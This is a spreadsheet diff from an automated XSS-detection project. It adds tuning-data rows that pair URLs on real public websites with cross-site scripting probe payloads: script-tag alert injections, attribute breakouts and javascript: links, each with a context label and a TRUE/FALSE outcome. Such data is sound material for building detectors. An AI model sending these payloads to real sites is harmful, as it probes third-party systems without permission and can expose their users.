

Before and after one commit to adnanshahz2018/Automated-XSS-Detection, an Excel workbook: TuningData/file.xlsx, sheet Sheet1, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/TuningData/file.xlsx (sheet Sheet1)
+++ b/TuningData/file.xlsx (sheet Sheet1)
+row 3: https://www.wowhead.com/search?q=' onmouseover='alert`1` | ATTR | FALSE | None
+row 4: https://www.nejm.org/search?pageType=search&q=</script><script>alert`1`</script>&asug= | SCRIPT | FALSE | None
+row 5: https://www.mainichi.jp/search/?&q='; confirm`1`; '&s=date | SCRIPT | TRUE
+row 6: https://www.mainichi.jp/search/?&q=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E&s=date | URL | FALSE | None
+row 7: https://www.mainichi.jp/search/?&q=&s='; confirm`1`; ' | SCRIPT | FALSE | None
+row 8: https://www.mainichi.jp/search/?&q=&s=%3Ca+href%3D%22jaVaScripT%3AAleRt%281%29%22%3Eclick_XYZ%3C%2Fa%3E | URL | FALSE | None
+row 9: https://www.sephora.fr/recherche?q=</script><script>alert`1`</script> | SCRIPT | FALSE | None
```
Also changed, not shown: 9 other files.
